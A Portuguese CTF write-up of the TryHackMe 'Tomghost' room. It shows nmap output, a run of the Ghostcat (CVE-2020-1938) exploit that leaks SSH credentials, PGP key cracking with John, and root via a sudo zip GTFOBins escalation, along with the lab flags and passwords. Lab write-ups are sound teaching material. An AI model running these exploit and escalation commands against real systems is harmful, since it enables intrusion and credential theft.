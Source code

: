 # Tomghost

export IP="10.10.236.55"


# 1.nmap

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/9.0.30
```

Identificado que há instalado um Apache Tomcat, na versão 9.0.30, que possui uma vulnerabilidade conhecida, chamado "Ghostcat" (CVE-2020-1938).


# 2. Exploit

Encontrado exploit para essa vulnerabilidade tanto standalone, quanto disponível no metasploit.

```
------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                |  Path
-------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                                                             | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)                                               | multiple/webapps/49039.rb
-------------------------------------------------------------------------------------------------------------- ---------------------------------

```

Execução oe exploit e descoberto o usuário e a senha do SSH de um dos usuários.

```
python 48143.py 10.10.236.55
Getting resource at ajp13://10.10.236.55:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>

```

Identificado dois arquivos "credential.pgp" e "tryhackme.asc".

Necessário descriptografar os arquivos para pegar as próximas credenciais.


# 3. Privilege Escalation (lateral)

 Baixado os arquivos localmente.

```
sudo scp skyfuck@10.10.236.55:/home/skyfuck/* .
[sudo] senha para joao: 
skyfuck@10.10.236.55's password: 
credential.pgp                       100%  394     1.3KB/s   00:00    
tryhackme.asc                        100% 5144    12.2KB/s   00:00  
```
Agora é necessário, conseguir a chave secreta para importação do arquivo pgp/asc.

```
sudo gpg2john tryhackme.asc > /tmp/hash.txt

cat hash.txt 
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc

sudo john --format=gpg --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2021-04-30 15:43) 7.692g/s 8246p/s 8246c/s 8246C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Com a chave "alexandru", podemos fazer a importação do arquivo "pgp" e capturar as credenciais do outro usuário.

```
sudo gpg --import tryhackme.asc 
[sudo] senha para joao: 
gpg: chave 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" não mudada
gpg: chave 8F3DA3DEC6707170: chave secreta importada
gpg: chave 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" não mudada
gpg: Número total processado: 2
gpg:              não modificados: 2
gpg:       chaves secretas lidas: 1
gpg:   chaves secretas importadas: 1

sudo gpg --decrypt credential.pgp 
gpg: AVISO: algoritmo de cifragem CAST5 não foi encontrado nas preferências do destinatário.
gpg: criptografado com 1024-bit ELG chave, ID 61E104A66184FBCC, criado 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```
Capturado as credenciais do outro usuário:
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j

Captura do a flag de usuário.

```
sudo ssh merlin@10.10.236.55
merlin@10.10.236.55's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Tue Mar 10 22:56:49 2020 from 192.168.85.1
merlin@ubuntu:~$ 
merlin@ubuntu:~$ ls
user.txt
merlin@ubuntu:~$ cat user.txt
THM{GhostCat_1s_so_cr4sy}

```

# 4. Privilege Escalation (root)

Identificado que há um aplicativo do zip com permissões de root.

```
sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Efetuado a escalação de privilégios conforme a documentação abaixo e capturado a flag de root.
https://gtfobins.github.io/gtfobins/zip/

```
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# 
# cat /root/root.txt
THM{Z1P_1S_FAKE}
```